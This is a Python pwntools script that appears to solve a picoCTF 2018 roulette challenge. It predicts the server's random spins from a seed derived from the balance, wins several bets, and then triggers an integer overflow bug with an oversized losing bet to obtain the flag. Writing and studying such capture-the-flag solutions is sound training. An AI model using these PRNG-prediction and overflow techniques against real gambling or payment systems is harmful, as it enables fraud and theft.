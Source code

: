 ```python
#!/usr/bin/env python

from pwn import *
import subprocess


r = remote('2018shell1.picoctf.com', 21444)

sleep(1)
lines = r.recvuntil('> ').split('\n')
print '\n'.join(lines)

balance = int(lines[1].split()[2][1:])

log.info("Start balance: {}".format(balance))

log.info("Predicting random values")
values = subprocess.check_output(["./get_rand_seq", str(balance)])
values = values.split(',')
values = [int(v, 10) for v in values[:-1]]

i = 0

ROULETTE_SIZE = 36

for _ in range(4):
   spin = (values[i] % ROULETTE_SIZE) + 1
   i += 2

   log.info("Putting {}$ on {}".format(balance, spin))

   r.sendline("{}".format(balance))
   r.sendline("{}".format(spin))

   balance *= 2

   print r.recvuntil('> ')

   print r.recv()

spin = (values[i] % ROULETTE_SIZE) + 1
i += 2

log.info("Putting {}$ on {}".format(11474836400, spin))

r.sendline("{}".format(11474836400)) # Put some negative numbers, bug in get_long
r.sendline("{}".format((spin + 1) % 36))

print r.recvuntil('You deserve this flag!')
print r.recvall()

r.close()
```
